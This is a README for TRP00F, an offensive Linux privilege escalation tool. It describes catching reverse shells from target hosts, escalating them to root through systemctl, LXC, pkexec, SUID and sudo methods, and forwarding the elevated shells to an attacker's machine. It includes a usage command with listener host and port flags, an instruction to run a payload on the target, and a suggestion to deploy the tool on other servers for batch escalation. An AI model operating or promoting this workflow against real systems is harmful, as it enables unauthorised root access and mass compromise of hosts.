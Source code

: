 # Update Announcement

**New Features:**
- [+] **Systemctl Privilege Escalation**
- [+] **LXC Privilege Escalation**
- [+] **PKEXEC Privilege Escalation**
- [+] **SUID Auto Privilege Escalation**
- [+] **SUDO Auto Privilege Escalation**

**Improvements:**
- [*] **Merged HTTP Server Ports**
- [*] **Fix the issue where the CURL command fails to escalate privileges.**


# TRP00F

TRP00F is a fully automated Linux privilege escalation machine. The controlled endpoint connects to the privilege escalation machine through a reverse shell, and the privilege escalation machine will automatically elevate privileges to the specified attacker's machine.

trp00f is a tool that is actively maintained and updated, with new features being added over time.


An interesting point is that you can deploy TRP00F on other servers to act as a "peeler." Any host that connects back to TRP00F will have its shell attempted for batch privilege escalation, and the elevated shell will then be connected to the attacker's machine.

![alt text](./pic/image-2.png)

## Usage

`$ python3 trp00f.py -h`

![alt text](./pic/image.png)


## Detect and capture reverse shell

`$ python3 trp00f.py --lhost 10.10.16.18 --lport 10022 --rhost 10.10.16.18 --rport 10090 --pkhttpport 10033 --lxhttpport 10091 --password 'admin@it'`

If the host password is uncertain, the password field does not need to be added.

Copy the payload to the target machine, execute it, and connect to our privilege escalation machine.



![alt text](./pic/image-1.png)

